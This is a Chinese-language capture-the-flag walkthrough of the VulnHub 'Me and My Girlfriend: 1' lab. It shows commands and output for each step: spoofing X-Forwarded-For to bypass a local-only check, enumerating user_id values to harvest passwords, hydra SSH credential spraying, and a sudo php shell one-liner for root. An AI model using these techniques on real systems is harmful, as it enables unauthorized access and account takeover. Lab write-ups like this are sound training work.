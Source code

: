 # ME AND MY GIRLFRIEND: 1

2025.02.13 https://www.vulnhub.com/entry/me-and-my-girlfriend-1,409/

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

先访问 80 web 首页，得到提示：

```
Who are you? Hacker? Sorry This Site Can Only Be Accessed local!<!-- Maybe you can search how to use x-forwarded-for -->
```

要添加 x-forwarded-for 为 127.0.0.1 才能进行访问。添加后出现的网址是: http://192.168.5.40/?page=index 这里可能存在文件包含。

```
curl -H 'X-Forwarded-For: 127.0.0.1' -vv http://192.168.5.40

Location: ?page=index
```

直接在浏览器中使用这个插件 X-Forwarded-For Header 可以自动添加 xff 请求头，在注册功能处 http://192.168.5.40/index.php?page=register 注册一个账号，登陆进去后，可以看到 http://192.168.5.40/index.php?page=profile&user_id=12 这里可以修改 user_id 1 至 12 实现用户信息遍历，最终拿到了如下的用户信息：

```
eweuhtandingan:skuyatuh
aingmaung:qwerty!!!
sundatea:indONEsia
sedihaingmah:cedihhihihi
alice:4lic3
abdikasepak:dorrrrr
```

使用上面得到的用户登陆凭据，尝试 ssh 登陆，

```
hydra -t 20 -C cred.txt  ssh://192.168.5.40

[22][ssh] host: 192.168.5.40   login: alice   password: 4lic3
```

使用 alice:4lic3 进行 ssh 登陆, 得到第一个 flag，并得到了一个 note 提示：

```
alice@gfriEND:~$ cd .my_secret/
alice@gfriEND:~/.my_secret$ ls
flag1.txt  my_notes.txt
alice@gfriEND:~/.my_secret$ cat flag1.txt
Greattttt my brother! You saw the Alice's note! Now you save the record information to give to bob! I know if it's given to him then Bob will be hurt but this is better than Bob cheated!

Now your last job is get access to the root and read the flag ^_^

Flag 1 : gfriEND{2f5f21b2af1b8c3e227bcf35544f8f09}
alice@gfriEND:~/.my_secret$ cat my_notes.txt
Woahhh! I like this company, I hope that here i get a better partner than bob ^_^, hopefully Bob doesn't know my notes
```

sudo -l 后显示 (root) NOPASSWD: /usr/bin/php ， 可以直接提权到 root 拿到第 2 个 flag：

```
sudo -u root php -r "system('/bin/bash');"

root@gfriEND:/home# cd /root
root@gfriEND:/root# ls
flag2.txt
root@gfriEND:/root# cat flag2.txt

  ________        __    ___________.__             ___________.__                ._.
 /  _____/  _____/  |_  \__    ___/|  |__   ____   \_   _____/|  | _____     ____| |
/   \  ___ /  _ \   __\   |    |   |  |  \_/ __ \   |    __)  |  | \__  \   / ___\ |
\    \_\  (  <_> )  |     |    |   |   Y  \  ___/   |     \   |  |__/ __ \_/ /_/  >|
 \______  /\____/|__|     |____|   |___|  /\___  >  \___  /   |____(____  /\___  /__
        \/                              \/     \/       \/              \//_____/ \/

Yeaaahhhh!! You have successfully hacked this company server! I hope you who have just learned can get new knowledge from here :) I really hope you guys give me feedback for this challenge whether you like it or not because it can be a reference for me to be even better! I hope this can continue :)

Contact me if you want to contribute / give me feedback / share your writeup!
Twitter: @makegreatagain_
Instagram: @aldodimas73

Thanks! Flag 2: gfriEND{56fbeef560930e77ff984b644fde66e7}
```
